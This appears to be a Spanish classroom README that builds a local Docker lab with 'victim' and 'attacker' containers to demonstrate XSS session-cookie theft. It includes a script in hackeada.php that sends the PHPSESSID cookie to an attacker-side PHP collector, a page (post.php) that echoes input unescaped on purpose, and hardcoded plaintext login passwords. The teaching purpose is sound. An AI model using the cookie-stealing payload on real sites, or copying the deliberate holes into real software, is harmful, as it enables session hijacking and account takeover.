



## Tarea Seguridad Web


Crea un nuevo repositorio en tu cuenta de github, nómbrala como seguridad-web, por ejemplo.

Clona éste nuevo repositorio en una carpeta local
```bash
git clone https://github.com/tu_usuario/seguridad_web.git
```
Crea dos carpetas dentro y nómbralas como "atacante" y "víctima"

```bash
mkdir atacante
mkdir victima
```
ahora crea una estructura de directorios en cada carpeta.


La carpeta victima  debe contener la siguiente estructura:
```bash
victima/
├── build.sh
├── Dockerfile
├── entrypoint.sh
├── php.conf
├── public_html
│   ├── hackeada.php
│   ├── index.php
│   ├── login.php
│   ├── logout.php
│   ├── post_mejorado.php
│   └── post.php
└── run.sh

```
y cada archivo de la estructura se compone así

build.sh
```bash
#!/bin/sh

# build.sh

# we use the "docker build" command to build a container named "chapter2" from . (current directory)
# Dockerfile is found in the current directory, and determines how the conatiner is built.

docker build -t victima .
```


Dockerfile
```bash
# we will inherit from  the Debian image on DockerHub
FROM debian

# set timezone so files' timestamps are correct
ENV TZ=Europe/Madrid

# install apache and php 7.3
# we include procps and telnet so you can use these with shell.sh prompt
RUN apt-get update -qq >/dev/null && apt-get install -y -qq procps telnet apache2 php7.4 -qq >/dev/null

# HTML server directory
WORKDIR /var/www/html
COPY . /var/www/html/


# The PHP app is going to save its state in /data so we make a /data inside the container
RUN mkdir /data && chown -R www-data /data && chmod 755 /data & chmod 775 -R /var/www/html/

# we need custom php configuration file to enable userdirs
COPY php.conf /etc/apache2/mods-available/php7.3.conf

# enable userdir and php
RUN a2enmod php7.4

# we run a script to stat the server; the array syntax makes it so ^C will work as we want
CMD  ["./entrypoint.sh"]

```

entrypoint.sh
```bash
#!/bin/bash

# we need to source apache's envvars in order to configure apache properly
. /etc/apache2/envvars

echo "entrypoint.sh"
ls -l
ls -ldg /data
ls -l /data/

# some shells will allow the user to click on the URL in the following lines
echo && echo && echo "----> Point your browser at http://localhost:8081/public_html/" && echo && echo

# run apache not as daemon (in the foreground)
exec apache2 -D FOREGROUND
```

php.conf
```bash
<FilesMatch ".+\.ph(ar|p|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
<FilesMatch ".+\.phps$">
    SetHandler application/x-httpd-php-source
    # Deny access to raw php sources by default
    # To re-enable it's recommended to enable access to the files
    # only in specific virtual host or directory
    Require all denied
</FilesMatch>
# Deny access to files without filename (e.g. '.php')
<FilesMatch "^\.ph(ar|p|ps|tml)$">
    Require all denied
</FilesMatch>

# Running PHP scripts in user directories is disabled by default
#
# To re-enable PHP in user directories comment the following lines
# (from <IfModule ...> to </IfModule>.) Do NOT set it to On as it
# prevents .htaccess files from disabling it.
#<IfModule mod_userdir.c>
#    <Directory /home/*/public_html>
#        php_admin_flag engine Off
#    </Directory>
#</IfModule>
```

run.sh
```bash
#!/usr/bin/env bash

# run.sh

# run the container in the background
# /data is persisted using a named container

docker run \
    --detach \
    --rm \
    -p8081:80 \
    --name="victima" \
    victima

```

Y dentro del directorio public_html, con los ficheros

hackeada.php
```bash
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
    Esta es una página que ha sido hackeada mediante XSS.
Al acceder, envía la cookie de sesión al sitio http://evil.local
<script>
var c = document.cookie.replace(/(?:(?:^|.*;\s*)PHPSESSID\s*\=\s*([^;]*).*$)|^.*$/, "$1")
var myImage = new Image(1,1);
myImage.src = "http://127.0.0.1:8080/public_html/robo-de-sesion.php?session_robada=" + c;
</script>

</body>
```


index.php
```bash
victima
```


login.php
```bash
<?php
session_start();

//En una aplicación real, los usuarios estarían almacenados en la base de datos
$all_users = array ("mario" => "qwerty", "juan" => "123456");
$valid_users = array_keys($all_users);

$ya_registrado = $_SESSION['ya_registrado'] ?? false;


if ($_SERVER['REQUEST_METHOD'] == "POST" && !$ya_registrado){
        $usuario = $_POST['usuario'] ?? "";
        $password = $_POST['password'] ?? "";
    
        $ya_registrado = (in_array($usuario, $valid_users)) && ($password == $all_users[$usuario]);
        if ($ya_registrado){
                $_SESSION['ya_registrado'] = true;
                $_SESSION['usuario'] = $usuario;
        }
}

if ($ya_registrado){
        // Si llega aqui es porque es un usuario válido.
        echo "<p>Welcome " . $_SESSION['usuario'] . "</p>";
        echo "<p>Congratulations, you are into the system.</p>";
}else{
?>

        <form action='login.php' method='post'>
                Usuario: <input type='text' name = "usuario" id="usuario" value=""><br>
                Contraseña: <input type='password' name = "password" id = "password" value=""><br>
                <input type='submit' value='Enviar'>
        </form>
<?php
}
?>
```


logout.php
```bash
<?php
//logout.php
session_start();
session_unset();
session_destroy();
//redirigimos a login.php
header('Location: login.php');
```


post_mejorado.php
```bash
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>

<?php
if ($_SERVER['REQUEST_METHOD'] == "GET") {
?>
<p>Nuevo Post</p>
<form action='post_mejorado.php' method='post'>
        <textarea name="textarea" rows="10" cols="50">Escribe algo aquí</textarea>
        <input type = 'submit' value='enviar'>
</form>
<?php
}else
        echo htmlspecialchars($_POST["textarea"]) ?? "";
?>
</html>
```
 
 
 post.php
 ```bash
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>

<?php
if ($_SERVER['REQUEST_METHOD'] == "GET") {
?>
<p>Nuevo Post</p>
<form action='post.php' method='post'>
        <textarea name="textarea" rows="10" cols="50">Escribe algo aquí</textarea>
        <input type = 'submit' value='enviar'>
</form>
<?php
}else
        echo $_POST["textarea"] ?? "";
?>
</body>
</html>
```
 
 En cuanto a la carpeta "atacante", seguirá la siguiente estructura
 
 ```bash
atacante/
├── build.sh
├── Dockerfile
├── entrypoint.sh
├── persist.sh
├── php.conf
└── public_html
    ├── index.php
    └── robo-de-sesion.php
```
 
 
 build.sh
 ```bash
#!/bin/sh

# build.sh

# we use the "docker build" command to build a container named "chapter2" from . (current directory)
# Dockerfile is found in the current directory, and determines how the conatiner is built.

docker build -t atacante .
```


Dockerfile
```bash
# we will inherit from  the Debian image on DockerHub
FROM debian

# set timezone so files' timestamps are correct
ENV TZ=Europe/Madrid

# install apache and php 7.3
# we include procps and telnet so you can use these with shell.sh prompt
RUN apt-get update -qq >/dev/null && apt-get install -y -qq procps telnet apache2 php7.4 -qq >/dev/null

# HTML server directory
WORKDIR /var/www/html
COPY . /var/www/html/


# The PHP app is going to save its state in /data so we make a /data inside the container
RUN mkdir /data && chown -R www-data /data && chmod 755 /data & chmod 775 -R /var/www/html/
# RUN chmod 775 -R /var/www/html/

# we need custom php configuration file to enable userdirs
COPY php.conf /etc/apache2/mods-available/php7.4.conf

# enable userdir and php
RUN a2enmod php7.4

# we run a script to stat the server; the array syntax makes it so ^C will work as we want
CMD  ["./entrypoint.sh"]
```
 
 
 entrypoint.sh
 ```bash
#!/bin/bash

# we need to source apache's envvars in order to configure apache properly
. /etc/apache2/envvars

echo "entrypoint.sh"
ls -l
ls -ldg /data
ls -l /data/

# some shells will allow the user to click on the URL in the following lines
echo && echo && echo "----> Point your browser at http://localhost:8086/public_html/" && echo && echo

# run apache not as daemon (in the foreground)
exec apache2 -D FOREGROUND
```
 
 
 persist.sh
 ```bash
#!/usr/bin/env bash

# persist.sh

# run container without making it a daemon - useful to see logging output
# we are adding a named volume for /data in the container so the
docker run \
    --rm \
    --detach \
    -p8080:80 \
    --name="atacante" \
    -v name:/data \
    atacante
```
    _Es importante mapear un directorio local en el contenedor, con el parámetro -v, para acceder a la información sobre la sesión._
 
 
 php.conf
 ```bash
<FilesMatch ".+\.ph(ar|p|tml)$">
    SetHandler application/x-httpd-php
</FilesMatch>
<FilesMatch ".+\.phps$">
    SetHandler application/x-httpd-php-source
    # Deny access to raw php sources by default
    # To re-enable it's recommended to enable access to the files
    # only in specific virtual host or directory
    Require all denied
</FilesMatch>
# Deny access to files without filename (e.g. '.php')
<FilesMatch "^\.ph(ar|p|ps|tml)$">
    Require all denied
</FilesMatch>

# Running PHP scripts in user directories is disabled by default
#
# To re-enable PHP in user directories comment the following lines
# (from <IfModule ...> to </IfModule>.) Do NOT set it to On as it
# prevents .htaccess files from disabling it.
#<IfModule mod_userdir.c>
#    <Directory /home/*/public_html>
#        php_admin_flag engine Off
#    </Directory>
#</IfModule>
```
 
 
 Y dentro de la carpeta _public_html_
 
 index.php
 ```bash
atacante
```
 
 
 robo-de-sesion.php
 ```bash
<?php
ini_set('display_errors', 1);
error_reporting(E_ALL);

$session_robada = $_GET['session_robada'] ?? "";
$session_robada .= "\n";
$fichero = '/data/sessions.txt';
// Abre el fichero para obtener el contenido existente
$actual = file_get_contents($fichero);
// Escribe el contenido al fichero
file_put_contents($fichero, $session_robada, FILE_APPEND);
?>
```
  
 
 
 
 Ahora ya tienes la estructura preparada, con lo que al ejecutar el script de ejecución, mapeará a la víctima en el puerto 8081 y al atacante en el puerto 8080
 
 Ejecuta el script  build.sh para la construcción de la imagen, y run.sh de la carpeta víctima para que se ejecute el contenedor.
 
 $ ./build.sh 
 
 $ ./run.sh 
  
 Ahora puedes abrir tu navegador y apuntar hacia 
 http://localhost:8081/public_html y hacia http://localhost:8081/public_html/post.php para abrir una caja de texto 
 



